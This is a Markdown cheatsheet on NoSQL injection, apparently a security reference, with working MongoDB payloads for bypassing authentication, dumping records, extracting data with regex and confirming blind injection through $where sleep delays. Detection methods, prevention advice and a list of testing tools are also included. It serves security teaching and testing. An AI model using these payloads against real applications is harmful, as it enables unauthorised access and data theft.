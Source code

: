 # 🔥 NoSQL Injection Cheatsheet

## 🎯 What is NoSQL Injection?

**NoSQL injection** is a security vulnerability that allows attackers to manipulate unvalidated input into NoSQL database queries. This can lead to unauthorized access, data extraction, or modification.

- **Targets:** NoSQL databases like MongoDB, Firebase, CouchDB, or DynamoDB.
- **Key Difference:** NoSQL databases handle unstructured or semi-structured data using JSON-like syntax, making them prone to injection attacks involving malicious objects or operators.

---

## ⚡ Types of NoSQL Injection

### 1. **NoSQL Syntax Injection**
- Exploits the application's use of raw or concatenated input in NoSQL query syntax.
- **Example (MongoDB):**
  ```javascript
  db.users.find({ username: inputUsername });
  ```
- **Payload to Bypass Authentication:**
  - Inject an always-true condition:
    ```json
    { "$ne": null }
    ```
  - Final Query:
    ```javascript
    db.users.find({ username: { "$ne": null } });
    ```

---

### 2. **NoSQL Operator Injection**
- Injects MongoDB-specific operators (`$gt`, `$ne`, `$regex`, etc.) to manipulate queries.
- **Example:**
  - Application Code:
    ```javascript
    db.users.find({ username: userInput, password: passInput });
    ```
  - Payload:
    ```json
    { "$or": [{ "username": "admin" }, { "password": { "$ne": null } }] }
    ```
  - Final Query:
    ```javascript
    db.users.find({
      "$or": [
        { "username": "admin" },
        { "password": { "$ne": null } }
      ]
    });
    ```

---

### 3. **Exploiting NoSQL Syntax Injection to Extract Data**
- Manipulates conditions to extract sensitive data like field names or values.
- **Identifying Field Names:**
  - Use malformed inputs to trigger verbose error messages.
  - **Payload Example:**
    ```json
    { "username": { "$regex": ".*" } }
    ```
  - Observe returned data to infer field structure.

---

### 4. **Timing-Based NoSQL Injection**
- Exploits delays to infer information (similar to blind SQL injection).
- **Example:**
  - Application Code:
    ```javascript
    db.users.find({ username: input });
    ```
  - Inject a delay:
    ```json
    { "$where": "sleep(5000) || true" }
    ```
  - Observe response time to confirm vulnerability.

---

## 🔎 Detection Techniques

1. **Test for Syntax Injection:**
   - Input malicious JSON-like objects and observe behavior.
   - Example Input:
     ```json
     { "$ne": null }
     ```
   - Result: Successful injection if unintended data is returned or if behavior changes.

2. **Check Query Processing Behavior:**
   - Inject special characters (`{`, `}`, `$`, `"`, `null`) and observe responses.

3. **Confirm Conditional Behavior:**
   - Input payloads that modify query logic:
     ```json
     { "username": "admin", "$or": [ {}, { "password": { "$ne": null } } ] }
     ```
   - Observe whether access is granted or data is returned.

4. **Verbose Error Messages:**
   - Craft inputs that trigger parsing errors to reveal database internals.

---

## 🛠️ Exploitation Techniques

### 1. **Bypassing Authentication**
- **Payload:**
  ```json
  { "username": { "$ne": null }, "password": { "$ne": null } }
  ```

- **Explanation:**
  - `$ne`: "Not Equal" operator matches any value not equal to `null`.

---

### 2. **Exfiltrating Data**
- **Extracting Field Names:**
  - Exploit `$regex` or `$exists` to infer structure.
  - **Payload:**
    ```json
    { "username": { "$regex": ".*" } }
    ```

- **Extracting Field Values:**
  - Use `$where` or `$regex` with crafted payloads.
  - **Payload:**
    ```json
    { "username": { "$regex": "^admin" } }
    ```

---

### 3. **Using Timing Attacks**
- **Payload:**
  ```json
  { "$where": "function() { sleep(5000); return true; }" }
  ```
- **Explanation:**
  - MongoDB evaluates `$where` conditions, delaying execution.

---

### 4. **Injecting MongoDB Operators**
- **Injection to Dump Collections:**
  - Payload:
    ```json
    { "$or": [{ "username": "admin" }, { "username": { "$ne": null } }] }
    ```

---

## 🔐 Preventing NoSQL Injection

1. **Sanitize Inputs:**
   - Strictly validate and sanitize user input.
   - Reject or escape special characters (`$`, `{`, `}`, etc.).

2. **Use Parameterized Queries:**
   - Avoid concatenating raw input into queries.
   - Use database libraries or Object-Relational Mapping (ORM) frameworks.

3. **Apply Input Whitelisting:**
   - Only allow expected field values or data types.
   - Reject unexpected query operators (`$ne`, `$gt`, `$regex`).

4. **Restrict Database Privileges:**
   - Use least-privilege principles to minimize database account permissions.

5. **Disable Dangerous Features:**
   - For MongoDB, consider disabling `$where` and JavaScript execution.

6. **Monitor and Log Queries:**
   - Use tools to log and analyze database queries for suspicious patterns.

7. **Implement Rate Limiting:**
   - Prevent automated attacks by limiting request rates.

---

## 🛠️ Tools for NoSQL Injection Testing

| Tool          | Purpose                            | URL/Command                             |
|---------------|------------------------------------|-----------------------------------------|
| Burp Suite    | Manual NoSQL injection testing     | [Burp Suite](https://portswigger.net)   |
| NoSQLMap      | Automated NoSQL injection scanner  | [NoSQLMap](https://github.com/codingo/NoSQLMap) |
| wfuzz         | Payload fuzzing                   | `wfuzz -z file,wordlist.txt -u URL`     |
| MongoDB Shell | Manual testing and exploitation    | [MongoDB](https://www.mongodb.com)      |


